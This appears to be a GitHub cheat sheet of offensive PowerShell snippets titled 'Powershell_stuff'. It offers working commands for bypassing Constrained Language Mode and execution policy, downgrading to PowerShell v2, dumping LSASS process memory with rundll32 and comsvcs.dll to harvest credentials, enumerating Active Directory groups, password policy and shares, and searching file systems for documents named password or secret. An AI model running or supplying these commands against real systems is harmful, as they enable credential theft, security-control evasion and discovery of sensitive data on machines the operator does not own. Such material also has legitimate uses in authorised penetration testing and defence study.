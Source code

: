 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
$ExecutionContext.SessionState.LanguageMode

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

# CLM Bypass   
	#Path to Powershell
	$CMDLine = "$PSHOME\powershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:\windows\temp"
	$TMPBypassPath = "TMP=C:\windows\temp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location


$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression

#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

Execute Powershell with Exec bypass and stay in Version 2

powershell.exe -Version 2 -ExecutionPolicy bypass

#Powershell Specific Tooling

# PowerSharpPack
PowerSharpPack -SharpShares -Command "--shares"

#Domain Enumeration

#Group Membership  
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object


#Aliases

dir = Get-ChildItem


#Current Domain Password Policy
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}



#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv


#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv

